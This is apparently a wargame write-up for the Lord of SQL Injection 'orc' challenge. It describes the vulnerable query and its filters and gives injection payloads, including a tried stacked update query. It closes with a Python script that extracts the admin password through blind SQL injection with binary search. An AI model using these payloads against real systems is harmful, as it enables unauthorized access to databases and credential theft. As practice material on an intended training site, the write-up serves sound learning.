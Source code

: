 ```yaml
---
title: "[LOS] orc"
date: 2025-03-25 00:00:00
categories: [Wargame, Lord of SQL Injection]
tags: [webhacking, sqli]
published: True
---
```


# Query

```sql
select id from prob_orc where id='admin' and pw='{$_GET[pw]}'
```

<br>

# Protection

## preg_match

- `prob` 문자열
- `_`
- `.`
- `()`

<br>

## addslashes()

```
$_GET[pw] = addslashes($_GET[pw]);
```

<br>

## if statement

```php
if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc");
```

<br>

# Analysis

- addslashes 함수 수행 전에 쿼리문이 실행된다
- 실행된 쿼리문이 출력이 되지는 않기에 update, insert와 같은 구문을 통해 데이터베이스를 변경할 수 있다.
- `prob` 문자열이 필터링되기에 `?pw=1' or 1=1; update char(0x70726F625F6F7263) set pw='123' where id='admin' %23`와 같은 페이로드를 시도하였지만 변화X
- 첫 번째 쿼리 실행 후 db에서 값을 가져온다면 `<h2>Hello admin</h2>`을 echo하기에 blind sqli 시도 가능

<br>

# exploit code

```
import requests

url = 'https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php'
cookie = '{PHPSESSID}'

# Get the length of the password
length = 1
while True:
    payload = f"?pw=0' or id='admin' and length(pw)={length} %23 "

    res = requests.get(url=f'{url}{payload}', cookies={'PHPSESSID': cookie})

    if '<h2>Hello admin</h2>' in res.text:
        break

    length += 1

print(f'*** Found length: {length} ***')

# Get the password by binary search
password = ''
for i in range(1, length + 1):

    low = ord('0')
    high = ord('z')
    while low <= high:
        mid = (low + high) // 2
        payload = f"?pw=0' or id='admin' and ord(substring(pw,{i},1))<={mid} %23 "
        res = requests.get(url=f'{url}{payload}', cookies={'PHPSESSID': cookie})

        if '<h2>Hello admin</h2>' in res.text:
            high = mid - 1
        else:
            low = mid + 1
    password += chr(low)
    print(f'Current password: {password}')

print(f'*** Found Password: {password} ***')
```
